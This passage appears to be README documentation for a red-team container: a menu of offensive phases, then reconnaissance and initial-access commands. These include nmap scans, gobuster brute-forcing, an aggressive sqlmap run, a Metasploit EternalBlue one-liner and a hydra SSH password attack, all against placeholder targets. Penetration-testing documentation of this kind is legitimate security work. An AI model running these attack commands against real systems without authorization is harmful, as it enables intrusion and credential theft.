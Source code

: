 #### Quick Start Script
```bash
# Use the automated start script
./start-red.sh
```

### Interactive Menu

Once inside the container, you'll have access to the red team operations menu:

1. **📝 Neovim Red Team IDE** - Enhanced editor with offensive security plugins
2. **🔄 n8n Workflow Editor** - Automation for red team operations
3. **💻 Bash Shell** - Direct shell access with all tools
4. **🔍 Reconnaissance & Intelligence** - Information gathering phase
5. **🎯 Initial Access & Exploitation** - Gaining initial foothold
6. **🔐 Credential Access & PrivEsc** - Escalating privileges
7. **🌐 Command & Control (C2)** - Maintaining persistent access
8. **🕵️ Persistence & Lateral Movement** - Expanding access
9. **📡 Collection & Exfiltration** - Data extraction
10. **🎭 Social Engineering** - Human element attacks
11. **🧠 ML/AI Offensive Security** - Advanced AI-powered techniques
12. **🌐 Shellngn Pro** - Web-based C2 interface
13. **🔧 Red Team Utilities** - Supporting tools and utilities
14. **📚 Help & Documentation** - Comprehensive guidance
15. **🚪 Exit** - Secure shutdown

## Red Team Methodology

### Phase 1: Reconnaissance
```bash
# Network discovery
nmap -sn 192.168.1.0/24

# Service enumeration
nmap -sS -sV -sC -O target_ip

# Web reconnaissance
gobuster dir -u http://target -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt

# OSINT gathering
python3 -c "
import shodan
# Shodan API integration for external reconnaissance
"
```

### Phase 2: Initial Access
```bash
# Web application testing
sqlmap -u "http://target/page.php?id=1" --batch --risk=3 --level=5

# Network service exploitation
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue; set RHOSTS target; exploit"

# Password attacks
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://target
```
